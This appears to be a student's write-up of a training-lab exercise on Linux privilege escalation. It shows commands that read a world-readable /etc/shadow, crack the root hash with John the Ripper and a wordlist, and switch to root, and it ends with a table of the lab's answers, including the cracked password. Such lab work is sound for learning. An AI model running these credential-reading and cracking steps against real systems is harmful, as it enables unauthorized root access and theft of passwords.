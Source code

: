 The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-readable:

```
ls -l /etc/shadow
```

![[Pasted image 20240219194345.png]]

View the contents of the /etc/shadow file:

```
cat /etc/shadow
```

![[Pasted image 20240219194445.png]]

Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Pasted image 20240219194720.png]]

Switch to the root user, using the cracked password:

```
su root
```

![[Pasted image 20240219194858.png]]

**Remember to exit out of the root shell before continuing!**

Answer the questions below

| Question                               | Answer |
| -------------------------------------- | ------ |
| What is the root user's password hash? | $6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0<br>       |
| What hashing algorithm was used to produce the root user's password hash?                                         | sha512crypt       |
| What is the root user's password?                                       | password123       |

